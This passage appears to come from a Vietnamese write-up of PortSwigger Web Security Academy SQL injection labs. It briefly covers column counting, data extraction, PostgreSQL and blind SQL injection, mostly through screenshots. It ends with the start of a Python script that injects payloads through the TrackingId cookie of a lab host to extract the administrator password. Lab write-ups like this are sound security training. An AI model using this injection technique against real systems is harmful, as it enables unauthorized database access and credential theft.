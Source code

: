 ![image](https://hackmd.io/_uploads/SJjGIds8gl.png)

Cuối cùng là trích xuất data.

![image](https://hackmd.io/_uploads/B1mF8_j8eg.png)

## LAB07 

Lab này mình phải xác định số cột. Thì mình dò theo payload sau. 

![image](https://hackmd.io/_uploads/r1J95Oi8gl.png)

## LAB08 

Lab này xác định số cột và cột nào có thể chứa chuỗi. 

![image](https://hackmd.io/_uploads/HysondoLle.png)

## LAB09 

Lab này thì làm tương tự trích xuất data.

![image](https://hackmd.io/_uploads/B1X8gKo8ex.png)

## LAB10 

Lab này cũng trích xuất data và loại DB này là PostgreSQL. 

![image](https://hackmd.io/_uploads/B1a-7KjUgx.png)

![image](https://hackmd.io/_uploads/r1sWLKoLlg.png)

![image](https://hackmd.io/_uploads/B12Q8KjUeg.png)

## LAB11 

Lab này liên quan đến Blind SQLi, liên quan đến trang login lúc nào cũng có `Welcomeback!`

Nên mình thử inject như sau: 

![image](https://hackmd.io/_uploads/HkaKL9oLlg.png)

![image](https://hackmd.io/_uploads/rkNo89iLel.png)

Và mục tiêu bài này cũng chỉ để lấy password của administrator. Cho nên mình viết script như sau. 

```python= 
import requests 
import sys 

def send_requests(payload):
    burp0_url = "https://0a7a00320368fdfa808a94b500110036.web-security-academy.net:443/"
    burp0_cookies = {"TrackingId": f"OtnJwcRuDcx7K8wH' {payload}", "session": "EoLrMPQY699qQw5pIWM1HPX7jPAjZGcl"}
    burp0_headers = {"Cache-Control": "max-age=0", "Sec-Ch-Ua": "\"Not)A;Brand\";v=\"8\", \"Chromium\";v=\"138\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "en-US,en;q=0.9", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Referer": "https://0a7a00320368fdfa808a94b500110036.web-security-academy.net/login", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=0, i"}
    res = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
```